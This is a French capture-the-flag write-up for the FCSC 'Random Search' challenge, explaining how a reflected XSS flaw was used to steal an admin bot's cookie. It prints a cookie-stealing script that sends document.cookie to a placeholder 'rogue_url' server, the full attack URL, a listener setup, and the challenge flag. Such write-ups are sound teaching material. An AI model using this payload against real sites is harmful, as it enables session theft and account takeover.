

# Random Search

| catégorie | points |
| :-------: | :----: |
|   Intro   |   20   |

## 0x0 Intro

> Pourrez-vous voler le cookie de l'administrateur qui visite les pages ?
>
> http://challenges2.france-cybersecurity-challenge.fr:5001/

## 0x1 Explications

Grand classique, le vol de cookie d'administration est un incontournable des challenges de cybersécurité.

Nous allons donc devoir surement utiliser une faille XSS et forcer l'admin à la lire.

## 0x2 Reconnaissance

### 0x2-0 Reconnaissance visuelle

Comme avant toute attaque informatique, il faut d'abord faire la reconnaissance de la cible.

En cliquant sur le lien, nous arrivons sur une page web avec un premier endroit interessant, la zone **Rechercher**

En effet, c'est dans ces zones que nous pourrons (ou pas) injecter notre code.

Puis nous avons un lien **contact**, qui lui nous demande de remonter des URL en cas de souci de recherche.

### 0x2-1 Théorie

Déjà, on peut imaginer que:

- la zone **Rechercher** ne sera pas le bon vecteur, car elle n'impactera que nous. Mais nous le vérifierons quand même pour le Write-Up
- la zone **URL** de contact, en effet, si nous voulons voler le cookie de l'admin, cela me semble être le meilleur vecteur

## 0x3 Exploitation

### 0x3-0 Rechercher

Dans la zone Rechercher, nous allons commencer par simple, nous allons entrer FCSC:


Nous retrouvons notre recherche dans le titre de la recherche, et l'URL est modifiée par ?search=FCSC

Que ce passerait-il si nous insérons un script dedans ?


Le résultat n'est pas probant, pas d'affichage de popup et on vois que le titre de la recherche n'est plus le même, mais l'URL elle à été changée par:

```javascript
<script>alert(miaou)%3B<%2Fscript>
```

Ce qui confirme ce que nous pensions au début, la partie vulnérable est dans **URL**.

### 0x3-1 Rechercher

Bien évidement, comme c'est l'admin qui va lire le script, nous n'allons pas lui envoyer un popup, mais nous allons de suite essayer de lui voler le cookie.

Pour cela, nous allons utiliser le script suivant :

```javascript
<script>document.location='http://rogue_url:8000/?'+document.cookie<script>
```

Évidement, remplacez **rogue_url** par votre serveur web, et si vous n'en n'avez pas nous allons en monter un très rapidement.

Pour cela, utiliser la commande suivante dans votre terminal linux (ou windows, et même mac):

```python
python -m http.server
```

N'oubliez pas de rediriger le port 8000 via le NAT de votre box vers votre ordinateur.

Puis dans la zone URL, insérons l'url suivante:

> "http://challenges2.france-cybersecurity-challenge.fr:5001/index.php?search=\<script\>document.location='http://rogue_url:8000/?'+document.cookie\</script\>"

Nous patientons, et très rapidement, nous trouvons la solution suivante:



## 0x4 Explication

Pourquoi ça flag ? Tout simplement grace au script, nous avons récupéré le cookie avec **document.cookie** que nous avons redirigé vers nous avec **document.location**

Et comme nous avons un serveur en écoute, nous avons pu récupérer dans les logs le cookie, et donc le flag.

## 0x5 TL;DR

Nous avons exploité une faille XSS, [La Reflected XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)

Cette faille nous a permis de récupéré le flag qui lui était stocké dans le cookie **admin=** qui lui contenait la valeur suivante:

> FCSC{4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633}
